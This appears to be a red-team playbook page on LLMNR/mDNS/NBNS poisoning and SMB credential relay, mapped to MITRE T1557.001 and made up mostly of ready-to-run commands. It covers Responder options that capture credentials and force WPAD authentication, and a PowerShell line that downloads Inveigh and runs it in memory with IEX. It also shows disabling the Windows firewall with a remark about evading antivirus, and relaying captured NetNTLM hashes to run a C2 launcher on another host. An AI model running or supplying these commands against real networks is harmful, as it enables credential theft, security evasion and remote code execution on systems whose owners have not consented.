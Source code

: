 
# LLMNR/mDNS/NBNS poisonning and SMB relay

## Overview

MITRE ATT&CK mapping: [T1557.001](https://attack.mitre.org/beta/techniques/T1557/001/)

Reference:

```
LLMNR protocol: https://en.wikipedia.org/wiki/Link-Local_Multicast_Name_Resolution
mDNS protocol: https://en.wikipedia.org/wiki/Multicast_DNS
NBNS protocol: https://en.wikipedia.org/wiki/NetBIOS_over_TCP/IP#Name_service
```

## Procedures

### Classic Responder LLMNR/mDNS/NBNS poisonning

```
# most lightweight version: poisonning + capturing requests only to SMB
Responder.py -I eth0 -f

# as aobove + acting as WPAD web proxy
Responder.py -I eth0 -wrf

# also forces users to provide their creds on WPAD
Responder.py -I eth0 -wfFbv
```

### PowerShell DNS/LLMNR/mDNS/NBNS poisonning

```
# details:
# https://github.com/Kevin-Robertson/Inveigh/
# https://github.com/Kevin-Robertson/Inveigh/wiki/Basics
Invoke-WebRequest -Uri https://github.com/Kevin-Robertson/Inveigh/archive/Inveigh-master.zip -OutFile Inveigh-master.zip

OR (how's this differnet?):

# downloading Inveigh in PowerShell and loading it into memory with:
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1")

# unzip (when .NET Framework 4.5 is available):
[System.Reflection.Assembly]::LoadWithPartialName('System.IO.Compression.FileSystem')
[System.IO.Compression.ZipFile]::ExtractToDirectory(".\Inveigh-master.zip", ".\Inveigh-master")

# source your PS scripts
cd .\Inveigh-master; cd .\Inveigh-master; . .\Inveigh.ps1

# turn off win firewall (also antivirus should be turned off or evaded):
netsh advfirewall set  allprofiles state off

# run in poisoning mode (Needs PS console with admin privs):
Invoke-Inveigh -IP <current-box-ip> -ConsoleOutput Y -NBNS Y -LLMNR Y -mDNS Y -HTTPS Y -Proxy Y -FileOutput Y

# run in limited poisoning mode (no admin privs):
Invoke-Inveigh -IP <current-box-ip> -ConsoleOutput Y -NBNS Y -FileOutput Y

# to stop:
Stop-Inveigh
```

### Notes

NetNTLM creds relay (prereq: SMB signing needs to be turned off):

Check: `nmap --script smb-security-mode.nse -p445,139 192.168.12.0/24 --open`

With Inveigh (provides NTLMv1/NTLMv2 HTTP/HTTPS/Proxy to SMB2.1 relay):

```
# we don't launch listener on HTTP as Invoke-InveighRelay will listen on it
Invoke-Inveigh -IP <current-box-ip> -ConsoleOutput Y -NBNS Y -LLMNR Y -mDNS Y -HTTP N

# Prepare command to execute (e.g. launcher for C2 Empire):
see below: Empire as C&C

# launch Relay (as cmd provide launcher command form Empire):
Invoke-InveighRelay -ConsoleOutput Y -StatusOutput N -Target <ip-to-relay-to> -Command <cmd-to-execute>
```

With Responder:

    https://threat.tevora.com/quick-tip-skip-cracking-responder-hashes-and-replay-them/

Other tools:

```
https://www.fox-it.com/en/insights/blogs/blog/inside-windows-network/
https://github.com/SecureAuthCorp/impacket
```

## OPSEC considerations

## Counter-countermeasures

